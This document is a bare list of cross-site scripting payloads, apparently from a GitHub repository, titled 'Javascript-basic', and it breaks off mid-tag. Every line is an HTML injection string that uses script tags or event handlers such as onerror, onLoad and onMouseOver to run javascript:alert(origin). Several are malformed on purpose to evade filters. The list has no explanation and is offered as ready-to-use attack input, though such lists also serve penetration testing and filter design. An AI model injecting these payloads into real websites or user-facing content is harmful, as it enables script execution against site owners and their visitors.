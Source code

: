 # Javascript-basic

<script>alert(origin)</script>
<img src=1 href=1 onerror="javascript:alert(origin)"></img>
<audio src=1 href=1 onerror="javascript:alert(origin)"></audio>
<video src=1 href=1 onerror="javascript:alert(origin)"></video>
<body src=1 href=1 onerror="javascript:alert(origin)"></body>
<image src=1 href=1 onerror="javascript:alert(origin)"></image>
<object src=1 href=1 onerror="javascript:alert(origin)"></object>
<script src=1 href=1 onerror="javascript:alert(origin)"></script>
<svg onResize svg onResize="javascript:javascript:alert(origin)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(origin)"></title onPropertyChange>
<iframe onLoad iframe onLoad="javascript:javascript:alert(origin)"></iframe onLoad>
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(origin)"></body onMouseEnter>
<body onFocus body onFocus="javascript:javascript:alert(origin)"></body onFocus>
<frameset onScroll frameset onScroll="javascript:javascript:alert(origin)"></frameset onScroll>
<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(origin)"></script onReadyStateChange>
<html onMouseUp html onMouseUp="javascript:javascript:alert(origin)"></html onMouseUp>
<body onPropertyChange body onPropertyChange="javascript:javascript:alert(origin)"></body onPropertyChange>
<svg onLoad svg onLoad="javascript:javascript:alert(origin)"></svg onLoad>
<body onPageHide body onPageHide="javascript:javascript:alert(origin)"></body onPageHide>
<body onMouseOver body onMouseOver="javascript:javascript:alert(origin)"></body onMouseOver>
<body onUnload body onUnload="javascript:javascript:alert(origin)"></body onUnload>
<body onLoad body onLoad="javascript:javascript:alert(origin)"></body onLoad>
<bgsound onPropertyChange bgsound onPropertyChange="javascript:javascript:alert(origin)"></bgsoun
